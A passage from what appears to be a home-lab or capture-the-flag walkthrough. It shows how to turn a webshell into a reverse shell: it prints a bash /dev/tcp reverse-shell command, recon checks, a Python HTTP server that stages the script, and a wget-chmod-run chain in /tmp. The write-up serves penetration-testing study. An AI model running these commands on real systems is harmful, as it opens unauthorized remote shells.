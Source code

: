 * Creating a script containing a reverse shell spawning command, which is, in this case, `bash -i >& /dev/tcp/192.168.56.1/51000 0>&1`
* Hosting this script in a location the machine we want the reverse shell on can download from. In this case I am running a host-only network, so I will host it on my local machine.
* Downloading the script to a writable directory, then making it executable and running it.


This last part usually uses `wget`-to donwload the script to a writable directory like /tmp and then running `chmod +x script.sh` and `bash script.sh` - so, we need do check if our user can run these commands.


In the webshell, we run

* `pwd && which wget && which chmod && which bash && cd /tmp && pwd && ls -la`

This script will tell us if we can run `wget`, `chmod` and `bash`, while also double-checking that we can write to /tmp.


<br>
![A23 – canrun](https://i.imgur.com/8bYrqBT.png)
<br>

All good news! We can run all of those commands, AND can write to /tmp – this means we are ready to set up our http server and download the script!


On our host machine, we write our shell script to a .sh file. I did this with a simple:

* `echo "bash -i >& /dev/tcp/192.168.56.1/51000 0>&1" > script.sh`

Then, we start our SimpleHTTPServer in that same directory with

* `python -m SimpleHTTPServer 51001`

<br>
![A24 host and script](https://i.imgur.com/YXKz4U7.png)
<br>

Our host machine is ready to serve up a freshly baked script. Make sure your listener is running, then we need to execute the change directory, download, make executable and run operation in the Web-Shell.


* `pwd && cd /tmp && wget http://192.168.56.1:51001/script.sh && chmod +x script.sh && bash script.sh`

Make sure your ports are right! The host port is 5100 *1* and the listener is 5100 __0__.

<br>
![A25 – shell popped!](https://i.imgur.com/2MlDwjN.png)
<br>




## 5. Enumerating With A User Shell

